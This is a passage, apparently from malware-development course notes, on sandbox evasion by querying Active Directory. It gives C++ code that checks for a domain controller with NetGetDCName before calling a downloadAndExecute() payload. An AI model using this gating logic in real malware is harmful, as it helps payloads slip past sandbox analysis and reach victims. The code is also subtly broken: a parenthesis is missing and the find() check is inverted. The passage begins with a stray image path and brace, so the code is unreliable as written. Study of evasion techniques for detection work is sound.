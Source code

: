 ```c++
}
```


# Querying Network Information
The last method is the most open-ended method of this list. Because of this it is considered one of the more advanced methods as it involves querying information about the Active Directory domain.
Almost no Malware Sandboxes are joined in a domain, so it's relatively safe to assume if the machine is not joined to a domain, it is not the right target. However, we cannot always be too sure, so we should collect some information about the domain to be safe. There are many objects that we can query:
- Computers
- User accounts
- Last User Login(s)
- Groups
- Domain Admins
- Enterprise Admins
- Domain Controllers
- Service Accounts
- DNS Servers
These techniques can vary in difficulty, therefore, we should consider how much time and effort we want to spend building out these evasion methods. A simple method, such as checking the systems environment variables (`echo %VARIABLE%` or to display all variables, use `set`) for an item like the LogonServer, LogonUserSid, or LogonDomain may be much easier than implementing a Windows API.
## Implementation
For the last evasion technique, we will be querying information about the [[Active Directory|AD]] domain. We will be keeping it simple by querying the name of a Domain controller using the `NetGetDCName` Windows API. This is a relatively simple Windows API that fetches the primary domain controller within the environment. This requires us to specify a pointer to a string for the DC Name to be put into. 
```cpp
BOOL isDomainController(){
//  Create a long pointer to Wide String for our DC Name to live in
    LPCWSTR dcName;  
//  Query the NetGetDCName Win32 API for the Domain Controller Name
    NetGetDCName(NULL, NULL, (LPBYTE *) &dcName);
//  Convert the DCName from a Wide String to a String
    wstring ws(dcName);
    string dcNewName(ws.begin(), ws.end());
//  Search if the UNC path is referenced in the dcNewName variable. If so, there is likely a Domain Controller present in the environment. If this is true, pass the check, else, fail.
    if (dcNewName.find("\\\\"){
	    return TRUE;
    } else {
		return FALSE;
    }
} 

int main(){
	if (isDomainController() == TRUE){
		downloadAndExecute();
	} else {
		cout << "Domain Controller Not Found";
	}
	return 0;
}
```
